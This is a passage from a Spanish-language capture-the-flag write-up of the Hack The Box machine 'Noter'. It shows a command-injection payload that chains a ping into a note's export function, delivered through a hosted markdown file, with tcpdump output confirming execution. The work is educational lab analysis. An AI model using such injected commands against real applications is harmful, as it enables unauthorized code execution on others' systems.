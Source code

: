 ```null

--- 10.10.16.4 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.321/0.321/0.321/0.000 ms
 {rand_int}
```

El nota introduzco ```;ping -c 1 10.10.16.4; echo ''```

<img src="/writeups/assets/img/Noter-htb/11.png" alt="">

Sin embargo, devuelve un error con un código de estado 500. Esto puede deberse a que en el campo ```body``` se almacena algún dato adicional (como formato de texto) que corrompan la sintaxis

<img src="/writeups/assets/img/Noter-htb/12.png" alt="">

Volviendo al código fuente, la función que realiza la misma tarea pero de forma remota, se queda únicamente con la data del archivo que indique y eliminando el salto de línea, ya que utiliza ```r.text.strip()```. Creo un archivo ```exploit.md``` con el siguiente contenido

```null
'; ping -c1 10.10.16.4; echo '
```

Lo comparto con un servicio HTTP con ```python``` e introduzco en el formulario

<img src="/writeups/assets/img/Noter-htb/13.png" alt="">

Al darle click en exportar recibo la traza ICMP en mi equipo

```null
tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
15:08:02.987766 IP 10.10.11.160 > 10.10.16.4: ICMP echo request, id 3, seq 1, length 64
15:08:02.996250 IP 10.10.16.4 > 10.10.11.160: ICMP echo reply, id 3, seq 1, length 64
```

